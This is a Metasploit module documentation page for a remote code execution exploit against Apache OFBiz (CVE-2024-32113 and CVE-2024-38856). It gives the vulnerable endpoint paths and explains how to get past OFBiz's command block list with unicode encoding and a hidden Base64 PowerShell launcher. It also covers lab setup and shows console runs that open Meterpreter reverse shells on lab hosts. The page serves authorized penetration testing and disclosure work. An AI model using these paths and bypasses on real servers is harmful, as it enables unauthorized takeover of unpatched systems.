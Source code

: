 ## Vulnerable Application
Apache OFBiz versions prior to 18.12.13 are vulnerable to a path traversal vulnerability. The vulnerable
endpoint `/webtools/control/forgotPassword` allows an attacker to access the `ProgramExport` endpoint which in
turn allows for remote code execution in the context of the user running the application.

It was then discovered that the use of the path traversal vulnerability is not required in order to access
the vulnerable endpoint ProgramExport. CVE-2024-38856 was given for this Incorrect Authorization vulnerability
and was patched in 18.12.15.

This module was originally written the exploit CVE-2024-32113, but upon the discovery of CVE-2024-38856 the
module updated to not exploit the path traversal vulnerability allowing for exploitation on 18.12.14 as well.

CVE-2024-32113, Path Traversal, patched in 18.12.13:
`/webtools/control/forgotPassword;../ProgramExport`

CVE-2024-38856, Incorrect Authorization, patched in 18.12.14:
`/webtools/control/forgotPassword/ProgramExport`

### Description
The module can exploit Apache OFBiz running on both Windows and Linux. OFBiz has list of `deniedWebShellTokens`
which includes strings like `curl` and `chmod` which attempts to prevent ProgramExport from being exploited. The list
can be bypassed if you encode your payload in unicode characters, which is what is done for payloads being sent to
Apache OFBiz running on Linux. Trying to do the same on Windows results in the application throwing errors complaining
about multiple characters.
```
      <p>The Following Errors Occurred:</p>
        <p>org.codehaus.groovy.control.MultipleCompilationErrorsException: startup failed:
Script1.groovy: 1: unexpected char: &#39;:&#39; @ line 1, column 49.
```

Which is why the following: `'BadChars' => "\x3a"` has been added. Adding BadChars changes the payload
to be Base64 encoded and gets powershell to decode and run it: `powershell -w hidden -nop -e <Base64 encoded payload>`

### Setup

#### Docker

1. Run the following docker command to spin up a vulnerable target:
`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

#### Windows 10 (Build 19045)

1. Download the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Download a vulnerable version of Apache OFBiz from https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.12.zip
1. Create the directory: `C:\ofbiz`.
1. Unzip the contents of `apache-ofbiz-18.12.12.zip` into `C:\ofbiz`.
1. Run `cd C:\ofbiz`.
1. Run `init-gradle-wrapper` to initialize the Gradle wrapper.
1. Run `.\gradlew cleanAll loadAll` to clean the system and load the complete OFBiz data.
1. Once the above completes run `.\gradlew ofbiz` to start the application
1. Navigate to `https://localhost:8443/webtools`


## Verification Steps

1. Start msfconsole
1. Do: `use apache_ofbiz_forgot_password_directory_traversal`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a session in the context of the user running Apache OFBiz.

## Scenarios

### Apache OFBiz 18.12.12 running on Windows 10 (Build 19045)
```
msf > use multi/http/apache_ofbiz_forgot_password_directory_traversal
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Linux Command
    1   Windows Command
    
msf exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set target 1
target => 1
msf exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run rhosts=172.16.199.132 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested remote code execution successfully
[*] Attempting to exploit...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.132:50788) at 2024-06-14 16:46:34 -0700

meterpreter > getuid
Server username: DESKTOP-N3ORU31\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-N3ORU31
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
```

### Apache OFBiz 18.12.12 running in Docker on MacOS 14.5
```
msf exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run target=0 payload=cmd/linux/http/x64/meterpreter/reverse_tcp rhosts=172.16.199.1 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:54454) at 2024-06-07 13:02:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.26-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
